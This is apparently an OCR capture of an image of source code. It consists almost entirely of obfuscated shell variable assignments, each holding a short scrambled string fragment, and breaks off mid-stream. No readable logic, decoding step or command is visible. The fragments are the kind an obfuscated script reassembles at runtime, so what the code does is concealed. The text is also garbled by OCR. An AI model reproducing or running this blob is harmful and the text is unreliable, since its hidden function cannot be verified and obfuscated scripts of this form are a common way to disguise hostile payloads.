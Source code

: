 u'\''';Ciz='pRz=';khz=''\'';BK';yWCz='ECz$';YGCz=';uCz';alBz='='\''uB';giBz='cvz=';EsBz=';Gjz';vJDz='z$il';rYz='='\'';S';DGBz='ke'\''\';QLz='axz=';vgz='ec'\''\';erCz='Wz$R';sWDz='z$nx';iXCz='Cz$q';gQBz='NTBz';DcBz='BLz=';GkCz='Pz$V';TIDz='gz$O';REDz='$jgz';VZCz='z$hE';xVCz='wz$x';ffCz='ELz$';FoBz='xfz=';ZJz='uTz'\''';UiDz='QMBz';eqz='='\''LC';hGBz='i'\'';O';IICz='='\''HO';aIDz='kz$U';XLDz='$Anz';gKBz=''\''kr'\''';VIBz='ah'\''\';PLDz='$umz';llz='='\''.'\''';xkBz='h'\'';a';wTz=''\'' pa';Zhz=';ULB';oEDz='z$LB';SMBz=''\''aPz';MYz=''\'';Sf';JTDz='z$Eu';tfCz='RLz$';afCz='yKz$';GuBz='XJBz';GCz='='\''Pz';DmBz=';Gcz';iaBz=''\'''\''54';xrCz='Kz$k';Sqz='='\''aT';OXBz='CABz';KTz='$'\'';a';xVDz='z$sw';wYBz=''\'';Jy';LuBz=''\''HCz';qABz='='\''$j';XxCz='Xbz$';CCz='LHBz';VKBz=';gZz';Fdz='\'\'''\''r';qFBz='nt'\'';';EWBz=';xBz';DFz=''\'';Zh';qkDz='cNBz';DEDz='Fz$W';tsz='='\''it';OPDz='$Oaz';Pjz=''\''e'\''\';hOz='z'\'';u';aLz='K'\'';h';bZCz='z$pE';AWz=''\''t i';kaCz='$uFz';fxCz='z$eb';tnDz='$mRB';AcBz=''\'';WW';AEBz='$'\'';h';koBz=';TUz';gMDz='nz$A';VdDz='z$gF';iFz='z='\''W';Lhz=';cyz';Llz='='\''wL';ptBz=''\'';Ga';jFDz='z$vh';Yjz=';ulz';IPDz='$Lqz';pOCz='Vid'\''';yaz='xF'\'';';KnDz='z$ER';byCz='cz$W';niDz='rz$l';OECz='fPz=';SPCz=''\'';rs';nGz=' f'\'';';vIBz='EKz$';AIDz='vjz$';kJDz='z$Zl';jQz='hN'\'';';YcDz='z$OE';plCz='CRz$';gsz=';Pjz';CVBz=''\''rPs';FxCz='Gbz$';DeDz='XGBz';KDBz=';36m';FmDz='z$fQ';wWz=''\''dev';Isz='vSz$';nXCz='z$wC';rdDz='uz$J';tRz=''\'';MM';wUDz='z$rv';wGDz='yiz$';DRCz='$lB'\''';iXz=';c'\'';';OXDz='z$Jy';bNz=''\'';QO';tXz='kNBz';eECz=';SPB';xXz=''\'';Ci';sxBz=''\''SNz';qADz='gdz$';WUCz=' '\'';j';HfCz='dKz$';bKCz='at'\''\';ASBz=''\''s y';juz='lp'\'';';lmBz='Tz$p';jiDz='$Vxz';IBBz='z$g'\''';TSCz=''\''o:"';oiCz='Oz$E';OGz='z='\''[';taCz='$HGz';RmCz='z$eR';KWCz='$KBz';dwBz='wBBz';BXBz=''\'';lZ';CGDz='$tZz';qZBz=''\''BOz';rFz='z$f'\''';cvBz='$nB'\''';puz=''\''rma';GkBz=''\'';yC';BYBz=''\''sOz';RvCz='Kz$i';Sez=''\'';kX';QWDz='z$Lx';yPBz='pFz$';mZz='z'\'';c';hKBz=''\'';sF';PqBz=''\''$hO';KFDz='Yhz$';csCz='Xz$J';eqCz='z$VV';yKBz='aABz';uOCz='G'\'';J';PrCz='EWz$';aZBz='igh'\''';DdBz=''\''p 2';ufBz='kDz'\''';BGCz=''\'';rX';YODz='kz$j';NcDz='Bz$s';Rdz='$ps'\''';lJBz=''\''VJz';feDz='$MHB';aLCz=';bez';CcDz='$eDB';IGDz='$Piz';KWz='R'\'';q';XjCz='$pOz';JfDz='wHBz';msBz=';jXz';IiCz='z$YN';gOz=''\'';jC';fFz=''\'';BD';vDDz='Pgz$';RwCz='z$Wa';jVz='E'\'';v';THCz='='\''GN';ATBz='; '\'';';oXz=''\''ta ';kBCz=';vBB';Rgz='\'\'''\''W';bez='fiz=';qHCz='m'\'';j';akDz='Bz$j';CQDz='xqz$';iIDz='Dz$b';WSBz=''\'';R'\''';qIBz=''\'';YF';eTCz='J'\'';B';uz='z='\''S';piDz='$nMB';mvz='YL'\'';';uXBz='UDz=';FNDz='oz$J';Iaz=''\'';yq';Apz='LRz'\''';MFDz='hz$a';Wpz=''\''PNz';UhBz=''\'';De';TZBz='='\''gL';fHDz='ejz$';Wsz='F'\'';E';eRBz=''\''SGz';opz=''\''pLz';njDz='$FOB';hgDz='$SJB';hSBz=''\''et(';vYDz='$wyz';Wqz=''\''iCz';gYDz='z$bA';LmBz=''\'';Sb';rWBz='ez$'\''';evCz='Bz$q';KcBz=''\'' Ex';FaBz=';NVz';nGBz='J'\'';b';YiCz='mNz$';urz='='\''lp';RXDz='z$My';YxBz='aI'\'';';RiDz='$Ttz';TBDz='ez$E';ENz='='\'';I';xaz=';Uyz';ASz='Rrz=';NdBz=''\'';UR';uVBz='ern'\''';KaCz='$XFz';JYBz='pt '\''';hVCz='z$bz';csBz=''\'''\''t.';nECz=''\'';E'\''';DkDz='aOBz';kXz=''\'';gI';sFz=';IBB';itCz='$FEz';mBDz='z$Te';hpBz='O'\'';T';AoBz=''\''txt';Aiz='jIBz';kXBz=''\'';do';XFCz=''\''"$o';OKz='\'\'''\''s';Jiz='$MB'\''';pADz='fdz$';vtz=''\'';Ny'
